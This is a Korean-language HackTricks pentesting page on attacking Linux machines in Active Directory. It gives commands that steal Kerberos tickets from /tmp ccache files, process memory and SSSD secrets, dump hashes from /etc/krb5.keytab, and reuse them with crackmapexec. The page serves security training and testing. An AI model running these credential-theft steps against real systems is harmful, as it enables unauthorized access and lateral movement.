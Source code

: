 # Linux Active Directory

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

{% embed url="https://websec.nl/" %}

리눅스 머신은 Active Directory 환경 내에 존재할 수 있습니다.

AD 내의 리눅스 머신은 **파일 내에 다양한 CCACHE 티켓을 저장하고 있을 수 있습니다. 이 티켓은 다른 kerberos 티켓처럼 사용되고 남용될 수 있습니다**. 이 티켓을 읽으려면 티켓의 사용자 소유자이거나 **root**여야 합니다.

## Enumeration

### 리눅스에서 AD 열거하기

리눅스(또는 Windows의 bash)에서 AD에 접근할 수 있다면 [https://github.com/lefayjey/linWinPwn](https://github.com/lefayjey/linWinPwn)를 사용하여 AD를 열거할 수 있습니다.

리눅스에서 AD를 열거하는 **다른 방법**을 배우려면 다음 페이지를 확인할 수 있습니다:

{% content-ref url="../../network-services-pentesting/pentesting-ldap.md" %}
[pentesting-ldap.md](../../network-services-pentesting/pentesting-ldap.md)
{% endcontent-ref %}

### FreeIPA

FreeIPA는 Microsoft Windows **Active Directory**에 대한 오픈 소스 **대안**으로, 주로 **Unix** 환경을 위해 설계되었습니다. Active Directory와 유사한 관리 기능을 위해 MIT **Kerberos** 키 배포 센터와 완전한 **LDAP 디렉토리**를 결합합니다. CA 및 RA 인증서 관리를 위해 Dogtag **Certificate System**을 활용하며, 스마트카드를 포함한 **다중 인증**을 지원합니다. Unix 인증 프로세스를 위해 SSSD가 통합되어 있습니다. 이에 대해 더 알아보려면:

{% content-ref url="../freeipa-pentesting.md" %}
[freeipa-pentesting.md](../freeipa-pentesting.md)
{% endcontent-ref %}

## 티켓 다루기

### Pass The Ticket

이 페이지에서는 **리눅스 호스트 내에서 kerberos 티켓을 찾을 수 있는 다양한 장소**를 찾을 수 있으며, 다음 페이지에서는 이 CCache 티켓 형식을 Kirbi(Windows에서 사용해야 하는 형식)로 변환하는 방법과 PTT 공격을 수행하는 방법을 배울 수 있습니다:

{% content-ref url="../../windows-hardening/active-directory-methodology/pass-the-ticket.md" %}
[pass-the-ticket.md](../../windows-hardening/active-directory-methodology/pass-the-ticket.md)
{% endcontent-ref %}

### /tmp에서 CCACHE 티켓 재사용

CCACHE 파일은 **Kerberos 자격 증명**을 저장하기 위한 이진 형식으로, 일반적으로 `/tmp`에 600 권한으로 저장됩니다. 이 파일은 **이름 형식 `krb5cc_%{uid}`**로 식별할 수 있으며, 이는 사용자의 UID와 관련이 있습니다. 인증 티켓 검증을 위해 **환경 변수 `KRB5CCNAME`**을 원하는 티켓 파일의 경로로 설정해야 하며, 이를 통해 재사용할 수 있습니다.

`env | grep KRB5CCNAME`으로 인증에 사용되는 현재 티켓을 나열합니다. 형식은 이식 가능하며, `export KRB5CCNAME=/tmp/ticket.ccache`로 환경 변수를 설정하여 티켓을 **재사용할 수 있습니다**. Kerberos 티켓 이름 형식은 `krb5cc_%{uid}`이며, 여기서 uid는 사용자 UID입니다.
```bash
# Find tickets
ls /tmp/ | grep krb5cc
krb5cc_1000

# Prepare to use it
export KRB5CCNAME=/tmp/krb5cc_1000
```
### CCACHE 티켓 재사용 from keyring

**프로세스의 메모리에 저장된 Kerberos 티켓은 추출될 수 있습니다**, 특히 머신의 ptrace 보호가 비활성화된 경우(`/proc/sys/kernel/yama/ptrace_scope`). 이 목적을 위한 유용한 도구는 [https://github.com/TarlogicSecurity/tickey](https://github.com/TarlogicSecurity/tickey)에서 찾을 수 있으며, 세션에 주입하고 `/tmp`에 티켓을 덤프하여 추출을 용이하게 합니다.

이 도구를 구성하고 사용하기 위해서는 아래 단계를 따릅니다:
```bash
git clone https://github.com/TarlogicSecurity/tickey
cd tickey/tickey
make CONF=Release
/tmp/tickey -i
```
이 절차는 다양한 세션에 주입을 시도하며, 성공을 나타내기 위해 추출된 티켓을 `/tmp`에 `__krb_UID.ccache`라는 명명 규칙으로 저장합니다.

### SSSD KCM에서 CCACHE 티켓 재사용

SSSD는 `/var/lib/sss/secrets/secrets.ldb` 경로에 데이터베이스의 복사본을 유지합니다. 해당 키는 `/var/lib/sss/secrets/.secrets.mkey` 경로에 숨겨진 파일로 저장됩니다. 기본적으로, 키는 **root** 권한이 있는 경우에만 읽을 수 있습니다.

\*\*`SSSDKCMExtractor` \*\*를 --database 및 --key 매개변수와 함께 호출하면 데이터베이스를 구문 분석하고 **비밀을 복호화**합니다.
```bash
git clone https://github.com/fireeye/SSSDKCMExtractor
python3 SSSDKCMExtractor.py --database secrets.ldb --key secrets.mkey
```
**자격 증명 캐시 Kerberos blob은 Mimikatz/Rubeus에 전달할 수 있는 사용 가능한 Kerberos CCache** 파일로 변환될 수 있습니다.

### 키탭에서 CCACHE 티켓 재사용
```bash
git clone https://github.com/its-a-feature/KeytabParser
python KeytabParser.py /etc/krb5.keytab
klist -k /etc/krb5.keytab
```
### /etc/krb5.keytab에서 계정 추출

루트 권한으로 운영되는 서비스에 필수적인 서비스 계정 키는 **`/etc/krb5.keytab`** 파일에 안전하게 저장됩니다. 이러한 키는 서비스의 비밀번호와 유사하며, 엄격한 기밀성이 요구됩니다.

keytab 파일의 내용을 검사하기 위해 **`klist`**를 사용할 수 있습니다. 이 도구는 사용자 인증을 위한 **NT Hash**를 포함한 키 세부 정보를 표시하도록 설계되었습니다. 특히 키 유형이 23으로 식별될 때 그렇습니다.
```bash
klist.exe -t -K -e -k FILE:C:/Path/to/your/krb5.keytab
# Output includes service principal details and the NT Hash
```
리눅스 사용자에게 **`KeyTabExtract`**는 NTLM 해시 재사용을 위해 활용할 수 있는 RC4 HMAC 해시를 추출하는 기능을 제공합니다.
```bash
python3 keytabextract.py krb5.keytab
# Expected output varies based on hash availability
```
macOS에서, **`bifrost`**는 keytab 파일 분석을 위한 도구로 사용됩니다.
```bash
./bifrost -action dump -source keytab -path /path/to/your/file
```
추출된 계정 및 해시 정보를 활용하여 **`crackmapexec`**와 같은 도구를 사용하여 서버에 연결할 수 있습니다.
```bash
crackmapexec 10.XXX.XXX.XXX -u 'ServiceAccount$' -H "HashPlaceholder" -d "YourDOMAIN"
```
## References

* [https://www.tarlogic.com/blog/how-to-attack-kerberos/](https://www.tarlogic.com/blog/how-to-attack-kerberos/)
* [https://github.com/TarlogicSecurity/tickey](https://github.com/TarlogicSecurity/tickey)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#linux-active-directory](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#linux-active-directory)

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}

